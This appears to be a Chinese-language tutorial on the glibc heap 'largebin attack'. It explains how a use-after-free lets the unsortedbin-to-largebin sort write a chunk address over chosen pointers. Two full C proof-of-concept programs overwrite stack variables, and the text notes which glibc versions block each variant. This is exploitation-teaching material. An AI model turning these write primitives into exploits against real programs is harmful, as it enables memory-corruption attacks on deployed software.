




本文内容在 [unsortedbin attack](../unsortedbin_attack/) 中总结过，单独拉出来整理一下。

当 chunk 从 unsortedbin 放到 largebin 中时，存在两种利用方式使得修改任意指针内容为 chunk 的地址。

利用时需要布局两个 chunk，一个 chunk 已经在 largebin 中，1个 chunk 还在 unsortedbin 中还未插入 largebin，我将这两个 chunk 分别称做 `p2` 和 `p3`。为了保证 `p3` 插入的 largebin 和 `p2` 是同一个，`p2` 和 `p3` 的大小要在一个 largebin 范围内变换。根据两个 chunk 的大小有不同的利用效果：

- `p2` 比 `p3` 小，可修改一个指针内容为 `p3` 地址
- `p2` 比 `p3` 大，可同时修改两个指针内容为 `p3` 的地址
- `p2` 和 `p3` 一样大，无法利用

利用前提还需要有一个 UAF 洞。使用下面示例分别构造这两种利用场景。

**第 1 种利用：`p2` 比 `p3` 小**

```cpp
#include <stdio.h>
#include <stdlib.h>

int main()
{
    unsigned long stack_var1 = 0;
    printf("&stack_var1 = %p\n", &stack_var1);
    printf("stack_var1 = %d\n", stack_var1);

    printf("Pre-call printf to avoid any subsequent impact on the layout of the chunk.\n\n");

    // Allocate a large chunk p1, we connot use small chunk due to the influence of tcache.
    char *p1 = (char *)malloc(0x420);
    printf("p1 chunk address:\t\t%p\n", p1 - 0x10);
    // Avoid to consolidating the p1 chunk with the other chunk during the free().
    malloc(0x20);
    // Allocate a large chunk p2 to avoid tcache interference.
    char *p2 = (char *)malloc(0x460);
    printf("p2 chunk address:\t\t%p\n", p2 - 0x10);
    // Avoid to consolidating the p2 chunk with the other chunk during the free().
    malloc(0x20);
    // Allocate a chunk p3 with a size smaller than p2 chunk.
    // The objective is to generate an unsorted chunk whose size is smaller than the other chunks present in the largebin.
    char *p3 = (char *)malloc(0x440);
    printf("p3 chunk address:\t\t%p\n\n", p3 - 0x10);
    // Avoid to consolidating the p3 chunk with the other chunk during the free().
    malloc(0x20);

    // Free p1 and p2 chunk to unsortedbin
    // asm("int3");
    printf("Free p1 and p2 chunk to unsortedbin.\n");
    free(p1);
    free(p2);

    printf("\tp2 chunk link:\t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // Allocate a chunk with a size smaller than freed p1 chunk, there are two goals:
    //      1. Use p1 to avoid splitting the p2 chunk. The remaining part after the 
    //          split will be placed back into the unsorted bin.
    //      2. to move p2 chunk to largebin
    printf("Allocate a chunk with a size smaller than freed p1 chunk, there are two goals:\n\t1. Use p1 to avoid splitting the p2 chunk. The remaining part after the \n\t\tsplit will be placed back into the unsorted bin.\n\t2. to move p2 chunk to largebin\n");
    char * partOfP1 = (char *)malloc(0x20);
    printf("\tpartOfP1:\t\t\t%p\n", partOfP1 - 0x10);
    printf("\tpartOfP1 == p1:\t\t\t%s\n", partOfP1 == p1 ? "true" : "false");

    printf("\tp2 chunk link:\t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // asm("int3");

    // Free p3 chunk to unsortedbin
    printf("Free p3 chunk to unsortedbin.\n");
    free(p3);
    printf("\tp3 chunk link: \t\t\t[%p <==> %p(p3) <==> %p]\n", *((char **)(p3 + 0x8)), p3 - 0x10, *((char **)(p3)));
    printf("\tp3 chunk nextsize link:\t\t[%p <==> %p(p3) <==> %p]\n\n", *((char **)(p3 + 0x18)), p3 - 0x10, *((char **)(p3 + 0x10)));

    // asm("int3");

    // Change the bk_nextsize of the largest chunk p2 to (&stack_var1 - 0x20).
    printf("Change the bk_nextsize of the largest chunk p2 to (&stack_var1 - 0x20).\n");
    *(unsigned long *)(p2 + 0x18) = (unsigned long)&stack_var1 - 0x20;
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // asm("int3");

    printf("Call malloc to move p3 to large bin, make *(p2->bk_nextsize + 0x20) == stack_var1 == p3\n");
    malloc(0x20);
    printf("\tstack_var1 = %p\n", (char *)stack_var1);
    // asm("int3");
    exit(0);
}
```

使用 glibc 版本为 2.27，运行结果如下：



这个示例中布局了 3 个 chunk：

- `p1` 是给中间用于避免 chunk 合并的 `malloc` 调用时分隔用的
- `p2` 后面被作为 largebin 中最小的 chunk，UAF 的原因使之可控，即 `fwd->fd` 可控
- `p3` 后面被放到 unsortedbin，在下次 `malloc` 调用时将被合并到和 `p2` 相同的 largebin，且满足 unsorted chunk 大小比 largebin 中最小的 chunk 小

当使用 UAF 修改 `p2->bk_nextsize` 为 `&stack_var1 - 0x20` 后，调用 `malloc` 触发 unsortedbin 分类将 unsorted `p3` 地址写入 `fwd->fd->bk_nextsize + 0x20`，`stack_var1` 的值最终被改为 `p3` 的地址。

试了下新版本 (2.39-0ubuntu8.3) 也可以用。

**第 2 种利用：`p2` 比 `p3` 大**

对之前的代码稍做修改后，便成了第 2 种：

```cpp
#include <stdio.h>
#include <stdlib.h>

int main()
{
    unsigned long stack_var1 = 0;
    unsigned long stack_var2 = 0;
    printf("&stack_var1 = %p\n", &stack_var1);
    printf("&stack_var2 = %p\n", &stack_var2);
    printf("stack_var1 = %d\n", stack_var1);
    printf("stack_var2 = %d\n", stack_var2);

    printf("Pre-call printf to avoid any subsequent impact on the layout of the chunk.\n\n");

    // Allocate a large chunk p1, we connot use small chunk due to the influence of tcache.
    char *p1 = (char *)malloc(0x420);
    printf("p1 chunk address:\t\t%p\n", p1 - 0x10);
    // Avoid to consolidating the p1 chunk with the other chunk during the free().
    malloc(0x20);
    // Allocate a large chunk p2 to avoid tcache interference.
    char *p2 = (char *)malloc(0x440);
    printf("p2 chunk address:\t\t%p\n", p2 - 0x10);
    // Avoid to consolidating the p2 chunk with the other chunk during the free().
    malloc(0x20);
    // Allocate a chunk p3 with a size larger than p2 chunk.
    // The objective is to generate an unsorted chunk whose size is larger than the other chunks present in the largebin.
    char *p3 = (char *)malloc(0x460);
    printf("p3 chunk address:\t\t%p\n\n", p3 - 0x10);
    // Avoid to consolidating the p3 chunk with the other chunk during the free().
    malloc(0x20);

    // Free p1 and p2 chunk to unsortedbin
    // asm("int3");
    printf("Free p1 and p2 chunk to unsortedbin.\n");
    free(p1);
    free(p2);

    printf("\tp2 chunk link:\t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // Allocate a chunk with a size smaller than freed p1 chunk, there are two goals:
    //      1. Use p1 to avoid splitting the p2 chunk. The remaining part after the 
    //          split will be placed back into the unsorted bin.
    //      2. to move p2 chunk to largebin
    printf("Allocate a chunk with a size smaller than freed p1 chunk, there are two goals:\n\t1. Use p1 to avoid splitting the p2 chunk. The remaining part after the \n\t\tsplit will be placed back into the unsorted bin.\n\t2. to move p2 chunk to largebin\n");
    char * partOfP1 = (char *)malloc(0x20);
    printf("\tpartOfP1:\t\t\t%p\n", partOfP1 - 0x10);
    printf("\tpartOfP1 == p1:\t\t\t%s\n", partOfP1 == p1 ? "true" : "false");

    printf("\tp2 chunk link:\t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // asm("int3");

    // Free p3 chunk to unsortedbin
    printf("Free p3 chunk to unsortedbin.\n");
    free(p3);
    printf("\tp3 chunk link: \t\t\t[%p <==> %p(p3) <==> %p]\n", *((char **)(p3 + 0x8)), p3 - 0x10, *((char **)(p3)));
    printf("\tp3 chunk nextsize link:\t\t[%p <==> %p(p3) <==> %p]\n\n", *((char **)(p3 + 0x18)), p3 - 0x10, *((char **)(p3 + 0x10)));

    // asm("int3");

    // Change the bk_nextsize of the large chunk p2 to (&stack_var1 - 0x20).
    printf("Change the bk_nextsize of the large chunk p2 to (&stack_var1 - 0x20).\n");
    *(unsigned long *)(p2 + 0x18) = (unsigned long)&stack_var1 - 0x20;
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));
    printf("Change the bk of the large chunk p2 to (&stack_var1 - 0x10).\n");
    *(unsigned long *)(p2 + 0x8) = (unsigned long)&stack_var2 - 0x10;
    printf("\tp2 chunk link: \t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));

    // asm("int3");

    printf("Call malloc to move p3 to large bin, make *(p2->bk_nextsize + 0x20) == stack_var1 == p3 and *(p2->bk + 0x10) == stack_var2 == p3\n");
    malloc(0x20);
    printf("\tstack_var1 = %p\n", (char *)stack_var1);
    printf("\tstack_var2 = %p\n", (char *)stack_var2);
    // asm("int3");

    exit(0);
}
```

使用 glibc 2.27 版本运行后同时修改 `stack_var1` 和 `stack_var2` 为 `p3` 地址：



如果改用新版本 (2.39)，这种方式会失败：



因为在 2.30 版本 [5b06f53](https://github.com/bminor/glibc/commit/5b06f538c5aee0389ed034f60d90a8884d6d54de) commit 中添加了个 `bk_nextsize` 和 `bk` 的校验：



所以这种方式在 2.30 之后失效，只能用第 1 种方式。